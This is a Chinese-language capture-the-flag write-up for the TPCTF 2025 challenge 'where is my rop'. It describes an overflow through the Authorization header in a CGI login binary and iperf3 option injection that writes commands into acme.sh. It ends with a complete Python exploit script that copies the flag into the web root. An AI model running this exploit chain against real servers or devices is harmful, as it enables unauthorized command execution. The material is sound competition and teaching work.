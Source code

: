 ```yaml
---
title: TPCTF 2025 - where is my rop
date: 2025/03/11 10:12:00
updated: 2025/03/11 10:12:00
tags:
    - shell jail
    - buffer overflow
    - remote debugging
    - httpd
thumbnail: /assets/tpctf2025/cmdConfusion.png
excerpt: 利用`login.cgi`的Authorization头溢出漏洞，通过构造payload实现命令注入，最终获取flag。
---
```


> very nice apache, love from cgi

{% note green fa-heart %}
本题由我和 *dbgbgtf* 共同完成
{% endnote %}

## 文件属性

|属性  |值    |
|------|------|
|Arch  |amd64 |
|RELRO |Full  |
|Canary|on    |
|NX    |on    |
|PIE   |on    |
|strip |yes   |

## 解题思路

哪有什么rop，我只看到了命令注入。

分别分析了`basement`、`login.cgi`、`logout.cgi`、`gen_enc`，后两者代码很短，
看不出什么明显的漏洞。前三者都使用`/tmp/tpctf.sock`这个`AF_UNIX`socket来进行进程间通信。
其中`basement`中有命令执行，我们可以控制一些参数，但是对大多数符号做了过滤，
几乎没有绕过的方式，并且在`login.cgi`中没有明显的控制方式。

然后 *dbgbgtf* 发现了`login.cgi`在处理`Authorization`头时，程序校验完base64字符串，
并没有检查其长度。随后程序将`Basic `后的信息做base64解码并放到`char auth_buf[0x200]`上，
这一块数据位于bss上，并与`cmd`相邻。通过写入很长的base64的Authorization，可以覆盖`cmd`，
在`sendcmd`的时候可以实现发送任意指令。

{% notel green fa-cloud-arrow-up 在容器中调试 %}
本题的环境比较复杂，不方便在本地调试，可以在启动容器后，在其中安装gdbserver，
然后编写一个前置的cgi来代理login，方便在login被拉起的时候用gdb连上去：

```sh /var/www/cgi-bin/prelogin.cgi
#!/bin/sh
gdbserver 127.0.0.1:1337 login.cgi "$@"
```
{% endnotel %}

在socket中传输的数据大约是按照0x80来切块的，而数据是从Authorization中按`:`分割拿到的，
我们可以轻松控制。对于冒号之间字段长度的检验，除了最后一个字段，其他字段均需小于0x80，
亦即最后一个字段可以无限长。

观察命令执行中所禁止的字符，包括`\n & $ ; < > ^ |`和<code>&grave;</code>，
但是空格等字符没有拦截，会不会内置的命令可以利用的呢？使用`man`查看`ping`，
`traceroute`和`iperf3`，其中`iperf3`的客户端有`-T`和`--logfile`两个特殊选项，
第一个是在输出的所有行之前添加一个自己的title，第二个是将输出附加到某个文件中。
查看容器中的`acme.sh`，其中啥也没干，就很适合用来作为脚本的载体。通过先启动`iperf3`服务端，
然后用空格、引号等指导`iperf3`客户端向`acme.sh`中写入命令，就可以通过任意acme命令触发脚本。
比如说在`acme.sh`中写入`cp /*flaG* /var/www/html/flag.html`，执行后就可以将flag写入到html目录下，
这样访问`/flag.html`就可以拿到flag。

{% notel blue fa-file-circle-exclamation flag的名字是？ %}
赛后交流发现本题出网，因此有的师傅通过iperf3的文件将flag传出去。当然我这个解法不出网，
应该更加符合出题人的想法。只是没想到flag名称相比给的附件变得有点多，
先用`find / -maxdepth 1 -fprint /var/www/html/ls.html`列出有哪些文件，通过curl获取：

<img src="/assets/tpctf2025/remotels.png" width="20%" height="20%">

一开始完全没想到g大写了，有点离谱... ~~才不是因为没有想到直接`/*f*`就行了~~
{% endnotel %}

最后考虑怎样构造payload：由于我们修改了要执行的`cmd`，因此分支会相较我们的原动作有差异。
由于`cmd`非`LOGIN`和`REGISTER`，最终会走 **reset_password** 的逻辑，
因此在我们的Authorization中需要3个`:`才能成功执行`sendcmd`。

![confusion](/assets/tpctf2025/cmdConfusion.png)

{% folding purple::更多细节 %}
压缩包中还有一些html和js文件，阅读后可以发现，如果在网页端尝试登录，会首先将密码使用
`gen_enc`加密，再提交登录/注册请求。然而，这并不是强制的。由于没有提供注册接口，
数据库又是空的，因此我们需要先手动发送http请求来注册。注册成功后如果登录，由于不存在
`manager.cgi`，因此会显示404。
{% endfolding %}

## EXPLOIT

```python
from pwn import *
import requests
import base64
from enum import Enum
BLUE_TEXT = lambda x: f'\x1b[34m{x}\x1b[0m'

class Commands(Enum):
    LOGIN =          1
    UPDATE_PASSWD =  2
    REGISTER =       3
    NEW_SESSION =    4
    DELETE_SESSION = 5
    IPERF3_SERVER =  6
    PING =           7
    TRACEROUTE =     8
    IPERF3_CLIENT =  9
    ACME_APPLY =    10
    ACME_RENEW =    11
    ACME_REVOKE =   12

def payload(lo: int):
    global sh, session_id
    if lo:
        host, port = '127.0.0.1', 80
    else:
        host, port = '61.147.171.105', 65519

    def new_session() -> str:
        url = f"http://{host}:{port}/cgi-bin/gen_enc"
        response = requests.get(url)
        return response.text[12:-14] # extract id from response
    
    def arbcmd(arg1: str, arg2: str, cmd: Commands):
        global session_id
        # last field can be extremely long
        auth = f"{arg1}:{arg2}:randstuff:".ljust(0x200).encode() + p8(cmd.value)
        headers = {
            'Authorization': f"Basic {base64.b64encode(auth).decode()}",
            'Content-Type': 'application/x-www-form-urlencoded'
        }
        url = f"http://{host}:{port}/cgi-bin/login.cgi?reset_password"
        response = requests.post(url, f"id={session_id}", headers=headers)
        assert response.text # wait for data to come

    session_id = new_session()
    info(f"Fetch new session: {session_id}")

    info(f"{BLUE_TEXT(Commands.IPERF3_SERVER.name)} Launching iperf3 server...")
    arbcmd('127.0.0.1', '1337', Commands.IPERF3_SERVER)

    info(f"{BLUE_TEXT(Commands.IPERF3_CLIENT.name)} Injecting command into acme.sh...")
    # arbcmd('127.0.0.1', '1337 -T "find / -maxdepth 1 -fprint /var/www/html/ls.html #" --logfile /root/.acme.sh/acme.sh', Commands.IPERF3_CLIENT)
    # why the flag name is so strange???
    arbcmd('127.0.0.1', '1337 -T "cp /*flaG* /var/www/html/flag.html #" --logfile /root/.acme.sh/acme.sh', Commands.IPERF3_CLIENT)

    info(f"{BLUE_TEXT(Commands.ACME_APPLY.name)} Triggering acme.sh...")
    arbcmd(' ', ' ', Commands.ACME_APPLY)

    url = f"http://{host}:{port}/flag.html"
    response = requests.get(url)
    success(f"Flag is: {response.text.strip()}")
```

![flag](/assets/tpctf2025/flag.html.png)
